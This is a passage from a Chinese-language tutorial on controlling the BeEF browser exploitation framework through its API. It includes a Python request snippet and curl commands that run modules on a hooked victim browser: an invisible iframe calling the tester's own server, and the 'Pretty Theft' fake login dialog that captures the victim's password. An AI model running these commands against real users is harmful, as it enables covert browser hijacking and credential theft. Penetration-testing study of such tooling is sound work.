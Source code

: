     response = urllib2.urlopen(req)           <span nodeIndex="595">#</span><span nodeIndex="596"> 发送页面请求</span>
    resdata = response.read()                 <span nodeIndex="597">#</span><span nodeIndex="598"> 获取服务器返回的页面信息，数据类型为str </span>
    <span nodeIndex="599">return</span> resdata

<span nodeIndex="600">if</span> <span nodeIndex="601">__name__</span> == <span nodeIndex="602">'</span><span nodeIndex="603">__main__</span><span nodeIndex="604">'</span>:
    host = <span nodeIndex="605">"</span><span nodeIndex="606">http://192.168.1.133:3000/</span><span nodeIndex="607">"</span>
    sessionId = <span nodeIndex="608">"</span><span nodeIndex="609">ykH80KnJo0NGgTnRF04kwsE9cuXxI7JaxvBbH4diBxWvNrmYnTt99Vp5Bg8UjMb4rHgBQF08k5pFOLso</span><span nodeIndex="610">"</span>
    key = <span nodeIndex="611">"</span><span nodeIndex="612">dadd1be063d3a3b4339d84f5bdbbcbb25616b41d</span><span nodeIndex="613">"</span>
    <span nodeIndex="614">print</span> execJavascript(host,sessionId,key)</code>
</pre>


<p nodeIndex="165">弹出了窗口</p>


<p nodeIndex="167">再举个带参数的例子，这次我使用的是Create Invisible Iframe模块，它的功能是创建一个隐藏的Frame。</p>
<p nodeIndex="168">这个模块的id为174，需要的参数是隐藏的Frame所指向的url地址</p>


<p nodeIndex="170">先查看一下模块的详细参数名</p>




<p nodeIndex="173">可以看到，这个请求的这个url参数名为”target”。下面进行测试，我们使用python创建一个简单的HTTP服务器</p>


<p nodeIndex="175">我们用curl构造请求</p>
<pre nodeIndex="176">
<code nodeIndex="622">curl -i -H "Content-Type: application/json; charset=UTF-8" -d '{"target":"http://192.168.1.133:8000/"}' http://192.168.1.133:3000/api/modules/tdipkyoT9fqMsMwrW6oc7esUX74rnuOffhe94T4u2DFRlAjhl5CN47gFikTjccC4YPetBtYhszOqb6MU/174?token=32c75b5e91ef4e519da119349d2c0cbd7cd23259</code>
</pre>
<p nodeIndex="177">执行成功，python HTTP上成功回显，说明我们在目标的浏览器上创建了一个隐藏的iframe，并使其访问了这个url地址</p>




<h3 nodeIndex="180">获取模块执行结果<br nodeIndex="627"></h3>
<p nodeIndex="181">有些模块执行完毕后，我们需要获取返回的数据，比如凭证欺骗模块Pretty Theft，我们想要获取用户输入的认证口令。</p>
<p nodeIndex="182">我们使用一个简单的windows凭证认证模板</p>


<p nodeIndex="184">它可以使目标浏览器上会弹出虚假的认证框</p>


<p nodeIndex="186">当受害者提交了凭证之后，从beef的执行结果中，我们可以看到欺骗到的密码</p>


<p nodeIndex="188">下面就通过API调用执行该模块，先看下参数</p>


<p nodeIndex="190">查看模块详细信息，我们可以找到这个模块需要的所有参数，有：欺骗对话框类型”choice”，背景风格”backing”，Logo的图片地址”imgsauce” ，因此请求示例应该像这样：</p>
<pre nodeIndex="191">
<code nodeIndex="632">curl -i -H <span nodeIndex="633">"</span><span nodeIndex="634">Content-Type: application/json; charset=UTF-8</span><span nodeIndex="635">"</span> -d <span nodeIndex="636">'</span><span nodeIndex="637">{"choice":"Windows","backing":"Grey","imgsauce":"http://0.0.0.0:3000/ui/media/images/beef.png"}</span><span nodeIndex="638">'</span> http:<span nodeIndex="639">//</span><span nodeIndex="640">192.168.1.133:3000/api/modules/ykH80KnJo0NGgTnRF04kwsE9cuXxI7JaxvBbH4diBxWvNrmYnTt99Vp5Bg8UjMb4rHgBQF08k5pFOLso/117?token=dadd1be063d3a3b4339d84f5bdbbcbb25616b41d</span></code>
</pre>
